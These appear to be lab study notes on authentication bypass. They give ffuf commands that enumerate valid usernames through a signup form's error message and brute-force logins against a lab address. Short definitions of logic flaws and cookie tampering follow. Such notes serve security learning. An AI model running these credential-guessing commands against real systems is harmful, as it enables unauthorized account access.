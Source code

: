 # Authentication Bypass

## Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks.

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.16.45/customers/signup -mr "username already exists"
```

<span style="color:rgb(255, 192, 0)">-w</span> argument selects the file's location on the computer that contains the list of usernames
<span style="color:rgb(255, 192, 0)">-X</span> argument specifies the request method, this will be a GET request by default, but it is a POST request in our example
<span style="color:rgb(255, 192, 0)">-d</span> argument specifies the data that we are going to send
<span style="color:rgb(255, 192, 0)">-H</span> argument is used for adding additional headers to the request.<span style="color:rgb(255, 192, 0)">
</span> 
<span style="color:rgb(255, 192, 0)">-u</span> argument specifies the URL we are making the request to
<span style="color:rgb(255, 192, 0)">-mr</span> argument is the text on the page we are looking for to validate we've found a valid username.

**Output will be saved to file named valid_usernames.txt** 

## Brute Force

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.16.45/customers/login -fc 200
```

Because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. For a positive match, we're using the <span style="color:rgb(255, 192, 0)">-fc</span> argument to check for an HTTP status code other than 200.

## Logic Flaw

 A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. 

## Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.
